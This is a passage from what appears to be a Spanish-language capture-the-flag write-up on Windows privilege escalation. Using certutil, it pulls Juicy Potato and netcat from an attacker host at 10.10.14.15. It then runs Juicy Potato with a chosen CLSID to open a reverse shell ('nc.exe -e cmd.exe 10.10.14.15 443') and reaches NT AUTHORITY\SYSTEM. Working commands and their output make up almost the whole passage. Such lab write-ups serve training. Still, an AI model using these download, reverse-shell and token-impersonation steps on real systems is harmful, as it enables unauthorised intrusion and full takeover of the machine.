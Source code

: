```bash
cd C:\Windows\Temp                                                                                                                         
mkdir Privesc                                                                     
mkdir Privesc                                                                                                         
cd Privesc                              
cd Privesc                                                                                 
certutil.exe -f -urlcache -split http://10.10.14.15/Juicy.Potato.x86.exe C:\Windows\Temp\Privesc\JP.exe
****  Online  ****
  000000  ...
  040600
CertUtil: -URLCache command completed successfully.

certutil.exe -f -urlcache -split http://10.10.14.15/nc.exe C:\Windows\Temp\Privesc\nc.exe
certutil.exe -f -urlcache -split http://10.10.14.15/nc.exe C:\Windows\Temp\Privesc\nc.exe
****  Online  ****
  0000  ...
  6e00
CertUtil: -URLCache command completed successfully.

C:\Windows\Temp\Privesc>
```

Ejecutamos el archivo **JP.exe**  comprobamos que información nos solicita. De acuerdo con el página de [Github](https://github.com/ivanitlearning/Juicy-Potato-x86), nos muestra un ejemplo de uso; por lo que tomamos dichos valores y agregamos el parámetro `-a` para ejecutar nuestro comando; en este caso una reverse shell a nuestro equipo de acatante `-a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd.exe 10.10.14.15 443"`, por lo que antes de ejcutar el programa nos ponemos en escucha por el puerto 443

```bash
JP.exe
JP.exe
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user

C:\Windows\Temp\Privesc>
JP.exe -l 4444 -p c:\windows\system32\cmd.exe -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9} -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd.exe 10.10.14.15 443"
Testing {6d18ad12-bde3-4393-b311-099c346e6df9} 4444
......
[+] authresult 0
{6d18ad12-bde3-4393-b311-099c346e6df9};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Privesc>
```
